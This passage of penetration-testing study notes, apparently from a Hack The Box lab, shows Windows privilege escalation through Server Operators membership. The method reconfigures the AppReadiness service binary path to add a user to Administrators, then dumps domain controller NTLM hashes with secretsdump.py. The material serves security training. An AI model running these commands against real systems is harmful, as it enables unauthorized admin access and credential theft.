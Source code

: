 * `C:\\htb> net group "Domain Admins" /dom` → checking the Domain Admins groups shows we are succesfully added to the group.

## **Server Operators ⭐**

The [Server Operators](https://docs.microsoft.com/en-us/windows/security/identity-protection/access-control/active-directory-security-groups#bkmk-serveroperators) group allows members to administer Windows servers without needing assignment of Domain Admin privileges. Membership of this group confers the powerful `SeBackupPrivilege` and `SeRestorePrivilege` privileges and the ability to control local services.

#### **Querying the AppReadiness Service**

```
C:\\htb> sc qc AppReadiness

[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: AppReadiness
        TYPE               : 20  WIN32_SHARE_PROCESS
        START_TYPE         : 3   DEMAND_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : C:\\Windows\\System32\\svchost.exe -k AppReadiness -p
        LOAD_ORDER_GROUP   :
        TAG                : 0
        DISPLAY_NAME       : App Readiness
        DEPENDENCIES       :
        SERVICE_START_NAME : LocalSystem
```

Examining the AppReadiness Service

* Service starts a SYSTEM
* **BINARY\_PATH\_NAME:** The path to the executable file for the service (`C:\\Windows\\System32\\svchost.exe -k AppReadiness -p`).

Lets modify the service binary path,

```
C:\\htb> sc config AppReadiness binPath= "cmd /c net localgroup Administrators server_adm /add"

[SC] ChangeServiceConfig SUCCESS
```

here we are changing binary path to execute command which adds our current user to the default user administrator group

* `C:\\htb> sc start AppReadiness` → Then start the service.
* `C:\\htb> net localgroup Administrators` → checking the Local Admin Group Membership

Now we are member of local admin group

lets dump the ntlm password hashes from the DC

* `dollarboysushil@htb[/htb]**$** secretsdump.py server_adm@10.129.43.9 -just-dc-user administrator`
